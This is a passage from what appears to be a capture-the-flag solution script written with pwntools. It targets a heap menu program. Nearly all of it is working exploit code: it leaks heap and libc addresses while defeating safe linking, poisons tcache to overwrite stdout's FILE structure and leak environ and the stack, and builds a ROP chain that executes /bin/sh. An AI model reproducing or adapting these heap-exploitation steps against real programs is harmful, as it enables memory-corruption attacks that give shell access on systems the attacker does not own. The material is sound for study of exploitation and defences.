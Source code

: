 ```py  
      io.sendafter(": ", data)   
  else:  
      io.sendlineafter(": ", data) 

def free(idx):  
  io.sendlineafter("> ", b"2")  
  io.sendlineafter("> ", str(idx).encode())

def view(idx):  
  io.sendlineafter("> ", b"3")  
  io.sendlineafter("> ", str(idx).encode())

for i in range(7):  
   alloc(i, b"", 0x100)  
free(0)

view(0)

heap = ((pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) << 12))  
pwn.log.info(f"heap @ {hex(heap)}")  
# then we defeated safe linking lol

alloc(0, b"YY", 0x100)

alloc(7, b"YY", 0x100)  
alloc(8, b"YY", 0x100)

alloc(9, b"/bin/sh\0", 0x10)

for i in range(7):  
   free(i)

alloc(9, b"YY", 100)  
free(9)

free(8)  
free(7)  
view(8)

libc.address = pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) - 0x219ce0 # -
0x1bebe0 # offset of the unsorted bin

rop = pwn.ROP(libc)  
binsh = next(libc.search(b"/bin/sh\x00"))  
rop.execve(binsh, 0, 0)

environ = libc.address + 0x221200  
stdout = libc.address + 0x21a780

pwn.log.info(f"libc: {hex(libc.address)}")  
pwn.log.info(f"environ: {hex(environ)}")  
pwn.log.info(f"stdout: {hex(stdout)}")

alloc(0, b"YY", 0x100)  
free(8)  
alloc(1, b"T"*0x108 + pwn.p64(0x111) + pwn.p64((stdout ^ ((heap + 0xb20) >>
12))), 0x130)  
alloc(2, b"TT", 0x100)  
alloc(3, pwn.p32(0xfbad1800) + pwn.p32(0) + pwn.p64(environ)*3 +
pwn.p64(environ) + pwn.p64(environ + 0x8)*2 + pwn.p64(environ + 8) +
pwn.p64(environ + 8), 0x100)

stack = pwn.u64(io.recv(8)[:-1].ljust(8, b"\x00")) - 0x130 - 8# - 0x1bebe0 #
```